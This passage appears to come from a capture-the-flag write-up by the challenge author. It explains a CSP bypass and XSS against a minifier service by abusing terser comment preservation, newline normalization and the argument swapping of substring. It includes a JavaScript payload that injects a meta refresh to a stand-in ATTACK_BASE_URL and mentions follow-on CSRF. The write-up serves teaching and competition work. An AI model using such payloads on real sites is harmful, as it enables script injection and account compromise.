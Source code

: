 I found a detailed post on newline normalizations. See it if you are interested:

- https://blog.whatwg.org/newline-normalizations-in-form-submission

Anyway, using `\n` seems to make sense. However, the `\n` characters will be erased by the minifier unfortunately:cry:.

Is there a way to maintain `\n` characters? See the documentation of `terser`:

- ref. https://github.com/terser/terser#format-options

> `comments` (default `"some"`) -- by default it keeps JSDoc-style comments that contain "@license", "@copyright", "@preserve" or start with `!`, pass `true` or `"all"` to preserve all comments, `false` to omit comments in the output, a regular expression string (e.g. `/^!/`) or a function.

The service uses default options for `terser`, so you can maintain `\n` characters using copyright comments like `/*! foo\nbar */`.

#### Step 2: CSP bypass

The service uses the following CSP:

```
default-src 'self';
base-uri 'none';
object-src 'none';
style-src https://unpkg.com/simpledotcss/simple.min.css;
script-src 'nonce-{{CSP_NONCE}}'
```

You should bypass it to XSS.

The first step of CSP bypass is using `<meta>` to redirect to a web site that you prepared.

For example, the following `code` causes a redirection:
```javascript
const meta = `<meta http-equiv="Refresh" content="0; URL=${ATTACK_BASE_URL}">`;
const code = `/*!${"\n".repeat(meta.length + 3)}${meta}*/\n`;
```

The many `\n` characters will be not erased by the minifier and will be converted to `\r\n` characters in a form submission. So, the value of `minifiedLength` will be `minifiedCode.length - (meta.length + 3)`. Then, it will bypass `escapeHtml` and will redirect to `ATTACK_BASE_URL`.

In your redirected web site, you can controll submit values freely by CSRF. Now all you have to do is gain XSS using appropriate values of `minifiedCode`, `originalLength`, and `minifiedLength`.


Finally, you need to break the rendering of `escapeHtml` so that the CSP nonce is applied to an injected script. See `index.html` of my solver below[^maas-1].

My solution abuses the behavior of `substring` used in `escapeHtml`:

- ref. https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/substring#description

> If `indexStart` is greater than `indexEnd`, then the effect of `substring()` is as if the two arguments were swapped; see example below.

[^maas-1]: The CSP bypass is too complicated to explain. So, please try it with your hands :raised_hands:

### Solver


[^babybox-1]: Actually, I discovered the Prototype Pollution before I found this report. Although I don't like 0-day challenges in CTF, it's not 0-day in this case. Also, the part of "Prototype Pollution to RCE" is interesting for me. So I decided to create this challenge.
[^light-note-1]: Firefox has recently added support for import maps at version 108 :tada:<br />ref. https://www.mozilla.org/en-US/firefox/108.0/releasenotes/
[^light-note-2]: However, we can construct nested forms by DOM manipulation in JavaScript.<br />E.g. `document.body.appendChild(document.createElement("form")).appendChild(document.createElement("form"))`<br />ref. https://html.spec.whatwg.org/#association-of-controls-and-forms
[^light-note-flag]: https://store.steampowered.com/app/381890/Induction
[^dark-note-flag]: https://store.steampowered.com/app/360740/Downwell
